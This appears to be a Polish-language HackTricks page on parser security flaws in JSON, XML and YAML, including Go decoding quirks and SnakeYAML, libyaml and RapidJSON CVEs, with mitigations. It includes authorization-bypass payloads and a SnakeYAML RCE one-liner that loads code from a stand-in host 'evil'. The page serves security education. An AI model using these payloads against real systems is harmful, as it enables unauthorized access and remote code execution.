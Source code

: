 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Wykryto następujące problemy w Go JSON, chociaż mogą one występować również w innych językach. Problemy te zostały opublikowane w [**tym wpisie na blogu**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Parsers JSON, XML i YAML w Go mają długą historię niespójności i niebezpiecznych domyślnych ustawień, które mogą być wykorzystywane do **obejścia uwierzytelniania**, **eskalacji uprawnień** lub **ekstrakcji wrażliwych danych**.

### (Un)Marshaling Unexpected Data

Celem jest wykorzystanie struktur, które pozwalają atakującemu na odczyt/zapis wrażliwych pól (np. `IsAdmin`, `Password`).

- Przykład struktury:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Powszechne podatności

1. **Brak tagu** (brak tagu = pole jest nadal analizowane domyślnie):
```go
type User struct {
Username string
}
```
Ładunek:
```json
{"Username": "admin"}
```
2. **Nieprawidłowe użycie `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Ładunek:
```json
{"-": true}
```
✔️ Prawidłowy sposób blokowania pola przed (de)serializacją:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Różnice w parserach

Celem jest obejście autoryzacji poprzez wykorzystanie sposobu, w jaki różne parsery interpretują ten sam ładunek w różny sposób, jak w przypadku:
- CVE-2017-12635: obejście Apache CouchDB za pomocą zduplikowanych kluczy
- 2022: Zoom 0-click RCE poprzez niespójność parsera XML
- GitLab 2025 obejście SAML za pomocą dziwactw XML


**1. Zduplikowane pola:**
Go's `encoding/json` bierze **ostatnie** pole.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Inne parsery (np. Jackson w Javie) mogą brać **pierwszy**.

**2. Niejednoznaczność wielkości liter:**
Go jest niejednoznaczne pod względem wielkości liter:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Nawet sztuczki z Unicode działają:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Niedopasowanie między usługami:**
Wyobraź sobie:
- Proxy napisane w Go
- Usługa AuthZ napisana w Pythonie

Napastnik wysyła:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python widzi `UserAction`, pozwala na to
- Go widzi `AdminAction`, wykonuje to


### Confuzja formatu danych (Polygloty)

Celem jest wykorzystanie systemów, które mieszają formaty (JSON/XML/YAML) lub otwierają się na błędy parsera, takie jak:
- **CVE-2020-16250**: HashiCorp Vault analizował JSON za pomocą parsera XML po tym, jak STS zwrócił JSON zamiast XML.

Atakujący kontroluje:
- Nagłówek `Accept: application/json`
- Częściową kontrolę nad ciałem JSON

Parser XML w Go analizował to **i tak** i ufał wstrzykniętej tożsamości.

- Stworzony ładunek:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** parser: `Action_2` (niezależne od wielkości liter + ostatnie wygrywa)
- **YAML** parser: `Action_1` (wrażliwy na wielkość liter)
- **XML** parser: analizuje `"Action_3"` wewnątrz ciągu

---

## Znaczące luki w parserach (2023-2025)

> Poniższe publicznie wykorzystywane problemy pokazują, że niebezpieczne analizowanie to problem wielojęzyczny — nie tylko problem Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Dotyczy: `org.yaml:snakeyaml` < **2.0** (używane przez Spring-Boot, Jenkins itp.).
* Przyczyna: `new Constructor()` deserializuje **dowolne klasy Java**, umożliwiając łańcuchy gadżetów, które kończą się wykonaniem zdalnego kodu.
* One-liner PoC (otworzy kalkulator na podatnym hoście):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Naprawa / Łagodzenie:
1. **Zaktualizuj do ≥2.0** (domyślnie używa `SafeLoader`).
2. W starszych wersjach, wyraźnie użyj `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Dotyczy: `libyaml` ≤0.2.5 (biblioteka C wykorzystywana przez wiele powiązań językowych).
* Problem: Wywołanie `yaml_event_delete()` dwa razy prowadzi do podwójnego zwolnienia pamięci, które napastnicy mogą wykorzystać do DoS lub, w niektórych scenariuszach, do eksploatacji sterty.
* Status: Zgłoszenie odrzucone jako „niewłaściwe użycie API”, ale dystrybucje Linuksa dostarczyły poprawioną wersję **0.2.6**, która defensywnie zeruje wskaźnik.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Dotyczy: Tencent **RapidJSON** przed zatwierdzeniem `8269bc2` (<1.1.0-patch-22).
* Błąd: W `GenericReader::ParseNumber()` niekontrolowana arytmetyka pozwala napastnikom tworzyć ogromne literały numeryczne, które owijają się i uszkadzają stertę — ostatecznie umożliwiając eskalację uprawnień, gdy powstała graf obiektów jest używana do podejmowania decyzji autoryzacyjnych.

---

### 🔐 Łagodzenia (Zaktualizowane)

| Ryzyko                              | Naprawa / Rekomendacja                                      |
|-------------------------------------|------------------------------------------------------------|
| Nieznane pola (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplikujące się pola (JSON)        | ❌ Brak naprawy w stdlib — waliduj za pomocą [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Dopasowanie bez uwzględnienia wielkości liter (Go) | ❌ Brak naprawy — waliduj tagi struktury + wstępnie kanonizuj dane wejściowe   |
| Śmieciowe dane XML / XXE           | Użyj wzmocnionego parsera (`encoding/xml` + `DisallowDTD`)     |
| Nieznane klucze YAML                | `yaml.KnownFields(true)`                                   |
| **Niebezpieczna deserializacja YAML** | Użyj SafeConstructor / zaktualizuj do SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 podwójne zwolnienie pamięci | Zaktualizuj do **0.2.6** lub wersji poprawionej przez dystrybucję            |
| RapidJSON <poprawione zatwierdzenie | Kompiluj przeciwko najnowszemu RapidJSON (≥lipiec 2024)              |

## Odnośniki

- Baeldung – “Rozwiązywanie CVE-2022-1471 z SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
